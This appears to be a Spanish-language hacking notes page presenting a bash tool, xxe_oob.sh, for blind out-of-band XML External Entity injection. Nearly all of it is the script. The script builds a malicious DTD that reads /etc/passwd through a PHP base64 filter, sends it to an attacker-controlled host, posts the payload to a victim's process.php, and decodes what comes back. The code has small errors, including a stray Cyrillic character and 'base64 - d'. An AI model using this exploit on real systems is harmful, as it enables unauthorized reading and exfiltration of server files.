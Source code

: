 # xxe\_oob.sh

***

* Tags: #herramientas #bash #hacking #scripting #XEE

***

**xxe\_oob.sh** es una herramienta en **bash** para automatizar el proceso de \[\[XXE (XML External Entity Injection)]] de manera a ciegas. Se basa en la el uso de un **DTD** y solicitudes al servicio web.

```bash
#!/bin/bash

echo -ne "\n[+] Introduce el archivo a leer: " && read -г myFilename

malicious_dtd="""
<!ENTITY % file SYSTEM \"php://filter/convert.base64-encode/resource=/etc/passwd\"> 
<!ENTITY % eval \"<!ENTITY &#x25; exfil SYSTEM 'http://<IP_ATACANTE>/?file=%file;'>\"> 
%eval; 
%exfil;"""

#Creamos el archivo DTD
echo $malicious_dtd > malicious.dtd

#Abrimos el servidor HTTP y guardamos el output en response
python3 -m http.server 80 &>response &
PID=$!

sleep 1; echo

curl -s -X POST "http://<IP_VÍCTIMA>/process.php" -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<IP_ATACANTE>/malicious.dtd"> %xxe;]>
<root><name>test</name><tel>123456789</tel><email>test@test</email><password>test123</password></root>' &>/dev/null
#La tercera linea es la petición base hacia el servidor en raw

#Para quedarnos con la parte que nos interesa de la solicitud hacia el servidor (el archivo encodeado)
cat response | grep -oP "/?file=\K[^.*\s]+" | base64 - d

#Cerramos el servicio HTTP
kill -9 $PID
wait $PID 2>/dev/null

rm response 2>/dev/null

```

